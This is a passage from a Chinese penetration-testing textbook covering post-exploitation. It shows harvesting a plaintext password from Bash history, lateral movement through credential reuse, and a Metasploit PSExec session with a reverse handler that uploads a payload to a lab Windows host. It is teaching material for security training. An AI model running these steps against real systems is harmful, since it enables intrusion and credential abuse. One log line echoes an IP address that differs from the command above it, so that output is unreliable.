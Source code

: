 可能是直到你获得系统访问权限后，才会发现面向网络的漏洞。如果不向服务器发送随机的 TFTP 输入并分析结果，我们很难找到这个问题。

### 检查 Bash 历史记录

在 Linux 系统中，寻找潜在有趣的信息的一个地方是用户的 Bash 历史记录。当 Bash Shell 关闭时，执行过的命令会写入一个名为*.bash_history*的文件，该文件位于用户的主目录中。这里展示了一个或许有些牵强的例子，其中用户的密码以明文形式保存在 Bash 历史文件中。

```
georgia@ubuntu:~$ **cat .bash_history**
my password is password
--*snip*--
```

## 横向移动

一旦我们访问了网络环境中的一个系统，我们是否可以利用它访问更多的系统及其敏感数据？如果我们被利用的系统属于一个域，我们当然可以尝试破解域账户，或者最好获取域管理员权限，这样我们就能登录并管理域中的所有系统。

即使你无法控制域，你仍然可能能够访问该域中的系统，如果这些系统都是通过相同的系统安装镜像安装的，且使用的本地管理员密码从未更改过。如果我们能破解一台机器的密码，我们也许能在没有域访问权限的情况下登录到环境中的许多机器。此外，如果一个用户在多个系统上都有帐户，他或她可能会在每个系统上使用相同的密码，这可能允许我们使用在其他地方找到的凭据登录。（良好的密码策略有助于防止这些漏洞，但即便在高安全性环境中，密码往往是最薄弱的环节。）

让我们看一下几种将对一个系统的访问转化为对多个系统访问的技巧。

### PSExec

PSExec 技术起源于 1990 年代末的 Sysinternals Windows 管理工具集。该工具通过使用有效的凭据连接到 Windows XP SMB 服务器上的 ADMIN$共享来工作。PSExec 将一个 Windows 服务可执行文件上传到 ADMIN$共享，然后通过远程过程调用（RPC）连接到 Windows 服务控制管理器，启动可执行服务。该服务随后设置一个名为`pipe`的 SMB 管道，用于发送命令并远程控制目标系统。

Metasploit 模块*exploit/windows/smb/psexec*实现了一个非常类似的技术。该模块需要目标上运行的 SMB 服务器和可用于访问 ADMIN$共享的凭据。

在第九章中，我们破解了 Windows XP 目标上用户的密码哈希值。你可能能想象使用找到的凭据和 PSExec 来访问更多系统。使用凭据*georgia:password*与 PSExec 模块，如示例 13-21 所示。

示例 13-21。使用 PSExec 模块

```
msf > **use exploit/windows/smb/psexec**
msf exploit(psexec) > **show options**

Module options (exploit/windows/smb/psexec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOST                       yes       The target address
   RPORT      445              yes       Set the SMB service port
   SHARE      ADMIN$           yes       The share to connect to, can be an admin share
                                           (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain  WORKGROUP        no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as

msf exploit(psexec) > **set RHOST 192.168.20.10**
RHOST => 10.0.1.13
msf exploit(psexec) > **set SMBUser georgia**❶
SMBUser => georgia
msf exploit(psexec) > **set SMBPass password**❷
SMBPass => password
msf exploit(psexec) > **exploit**
[*] Started reverse handler on 192.168.20.9:4444
[*] Connecting to the server...
[*] Authenticating to 192.168.20.10:445|WORKGROUP as user 'georgia'...
[*] Uploading payload...
[*] Created \KoMknErc.exe...
--*snip*--
```